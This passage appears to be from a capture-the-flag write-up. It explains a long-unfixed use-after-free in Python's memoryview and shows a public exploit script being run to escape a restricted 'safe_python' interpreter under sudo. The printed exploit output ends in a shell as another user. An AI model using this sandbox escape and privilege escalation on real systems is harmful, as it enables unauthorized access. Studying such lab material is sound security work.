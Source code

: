 There’s an issue with Python about how the builtin `memoryview`
[function](https://docs.python.org/3/library/functions.html#func-memoryview)
has a user-after-free vulenrability in it. This vulnerability was [reported as
a crash](https://bugs.python.org/issue15994) in 2012, and remained unresolved
and migrated to an [issue on the cpython
GitHub](https://github.com/python/cpython/issues/60198), where it remains open
into 2023.

[This blog post](https://pwn.win/2022/05/11/python-buffered-reader.html) goes
into how the author was able to exploit this vulenrability to get execution.
At the very end of the post, there is a section titled “So what?”:

> What’s the point of this whole thing, can’t you just do `os.system(...)`?
> Well, yes.
>
> Given that you need to be able to execute arbitrary Python code in the first
> place, this exploit won’t be useful in most settings. However, it may be
> useful in Python interpreters which are attempting to sandbox your code,
> through restricting imports or use of [Audit
> Hooks](https://peps.python.org/pep-0578/), for example. This exploit doesn’t
> use any imports and doesn’t create any code objects, which will fire
> `import` and `code.__new__` hooks, respectively. My exploit will only
> trigger a `builtin.__id__` hook event, which is much more likely to be
> permitted.

What’s the benefit of this exploit if you can just `os.system(...)`? What
about in this scenario where I can’t import `os`?

#### POC

I’ll pull the [exploit script](https://raw.githubusercontent.com/kn32/python-
buffered-reader-exploit/master/exploit.py) from GitHub and save a copy on
RainyDay. Just running it results in a shell as the running user, jack:

    
    
    jack@rainyday:/dev/shm$ python3 sploit.py 
    [*] .dynamic:   0x564935045be8
    [*] DT_SYMTAB:  0x564934ae45f8
    [*] DT_STRTAB:  0x564934af1300
    [*] DT_RELA:    0x564934b4a560
    [*] DT_PLTGOT:  0x564935045e08
    [*] DT_INIT:    0x564934b4e000
    [*] Found system at rela index 97
    [*] Full RELRO binary, reading system address from GOT
    [*] system:     0x7fc6191bfd60
    $ id
    uid=1000(jack) gid=1000(jack) groups=1000(jack)
    

But running it with `sudo` and `safe_python` results in a shell as jack_adm:

    
    
    jack@rainyday:/dev/shm$ sudo -u jack_adm safe_python ./sploit.py 
    [*] .dynamic:   0x558397107be8
    [*] DT_SYMTAB:  0x558396ba65f8
    [*] DT_STRTAB:  0x558396bb3300
    [*] DT_RELA:    0x558396c0c560
    [*] DT_PLTGOT:  0x558397107e08
    [*] DT_INIT:    0x558396c10000
    [*] Found system at rela index 97
    [*] Full RELRO binary, reading system address from GOT
    [*] system:     0x7f4d4a4dcd60
    $ id
    uid=1002(jack_adm) gid=1002(jack_adm) groups=1002(jack_adm)
    